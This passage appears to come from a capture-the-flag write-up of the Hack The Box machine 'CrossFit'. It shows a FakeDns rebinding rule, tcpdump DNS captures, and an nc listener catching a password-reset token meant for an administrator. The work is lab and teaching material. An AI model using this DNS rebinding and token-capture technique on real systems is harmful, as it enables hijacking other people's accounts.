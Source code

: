 In this case, I’ll want to resolve the first two to localhost, then switch so
that when the administrator clicks the link, they visit me:

    
    
    A 0xdf-employees.crossfit.htb 127.0.0.1 2%10.10.14.13
    

I like to run with `sudo tcpdump -ni tun0 udp port 53` running as well to see
what’s happening.

I’ll start `nc` listening on 80 to see what kind of response I get, and then
send the request again. When FakeDns shows the first two resolutions,
`tcpdump` shows they are to 127.0.0.1:

    
    
    16:28:26.331909 IP 10.10.10.232.23252 > 10.10.14.13.53: 57067+ [1au] A? 0xdf-employees.crossfit.htb. (56)
    16:28:26.332409 IP 10.10.14.13.53 > 10.10.10.232.23252: 57067* 1/0/0 A 127.0.0.1 (61)
    16:28:26.350614 IP 10.10.10.232.2806 > 10.10.14.13.53: 63663+ [1au] A? 0xdf-employees.crossfit.htb. (56)
    16:28:26.350971 IP 10.10.14.13.53 > 10.10.10.232.2806: 63663* 1/0/0 A 127.0.0.1 (61)
    

When there’s another request at the DNS server, `tcpdump` shows it resolving
to my IP (twice for some reason):

    
    
    16:30:10.832966 IP 10.10.10.232.1827 > 10.10.14.13.53: 26577+ [1au] A? 0xdf-employees.crossfit.htb. (56)
    16:30:10.833466 IP 10.10.14.13.53 > 10.10.10.232.1827: 26577* 1/0/0 A 10.10.14.13 (61)
    16:30:10.856452 IP 10.10.10.232.22551 > 10.10.14.13.53: 26892+ [1au] A? 0xdf-employees.crossfit.htb. (56)
    16:30:10.856815 IP 10.10.14.13.53 > 10.10.10.232.22551: 26892* 1/0/0 A 10.10.14.13 (61)
    

At `nc`, there’s an HTTP request:

    
    
    oxdf@parrot$ nc -lnvp 80
    listening on [any] 80 ...
    connect to [10.10.14.13] from (UNKNOWN) [10.10.10.232] 1194
    GET /password-reset.php?token=a1c4562f378568a75893411f687a2b73cd632e84df18e57349a9a853cdd326b5328b27303e45ee3ce7c317fd654c3269c9a6e78b9746d45ca307db2269f5f6bc HTTP/1.1
    Host: 0xdf-employees.crossfit.htb
    User-Agent: Mozilla/5.0 (X11; OpenBSD amd64; rv:82.0) Gecko/20100101 Firefox/82.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: keep-alive
    Referer: http://crossfit-club.htb/chat
    Upgrade-Insecure-Requests: 1
    

At this point I thought I would have access to the admin’s account by visiting
that link. I was disappointed to find on visiting:

![image-20210717135839754](https://0xdfimages.gitlab.io/img/image-20210717135839754.png)

